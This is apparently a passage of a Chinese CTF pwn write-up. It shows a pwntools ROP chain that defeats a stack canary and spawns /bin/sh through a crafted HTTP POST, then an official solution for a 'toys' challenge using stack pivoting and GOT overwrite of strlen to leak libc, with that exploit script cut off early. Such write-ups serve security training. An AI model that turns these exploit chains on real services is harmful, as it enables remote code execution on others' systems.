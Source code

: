 ```python
chain = b'a'*0x108 + p64(canary) + p64(0xdeadbeaf)
chain += p64(pop_5) + (b'a'*0x15 + b'/add\x00').ljust(0x28, b'a')
chain += p64(pop_rdi) + p64(0)
chain += p64(pop_rsi) + p64(bss)
chain += p64(pop_rdx_2) + p64(0x100)*2
chain += p64(pop_rax) + p64(0)
chain += p64(syscall)
chain += p64(pop_rax) + p64(59)
chain += p64(pop_rdi) + p64(bss)
chain += p64(pop_rsi) + p64(0)
chain += p64(pop_rdx_2) + p64(0)*2
chain += p64(syscall)

template = '''POST /{} HTTP/1.1\r
Host: www.baidu.com\r
User-Agent: Haha\r
Content-Length: {}\r
Content: '''

chain = chain
payload = template.format("add", len(chain)).encode('utf-8')
payload += chain + b'\r\n'

sh.send(payload)

sh.send('/bin/sh\x00')

sh.interactive()
```

## Day3 toys
官方 wp：

1. 题目就是很简单的栈溢出，但是发生在高版本libc中导致没有足够的gadget进行使用，所以这里需要进行栈迁移。并且题目中没有输出函数来输出我们输入的内容导致难以泄漏地址
2. 但是很容易可以注意到这里的strlen函数就非常类似puts函数来使用，所以这里如果可以将strlen函数的got表中的内容修改为puts的plt表从而可以实现泄漏出其中的内容
3. 但是实际操作会发现如果直接进行栈迁移到该got表位置会导致其他的内容被毁所以这里还需要将rsp给迁移到更高的地址，从而避免该内存中的重要内容不被修改
4. 所以这里需要进行几次迁移，通过多次leave ret来保证我们在执行函数时rsp都处于高地址

最终可得exp

```python
from pwn import *

elf = ELF('./pwn')
# r = process('./pwn')
r = remote('172.16.0.2', 9999)
libc = ELF('./libc.so.6')

context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

leave_ret  = 0x00000000004012cd
fget_read  = 0x00401274
puts_plt   = 0x00401090
puts_addr  = 0x40128C
got_addr   = 0x00404000
strlen_got = 0x00404008

r.recvuntil(b'Data: ')
payload = flat(b'\x00'*0x80, got_addr + 0x800, fget_read)
r.sendline(payload)

r.recvuntil(b'OK')
```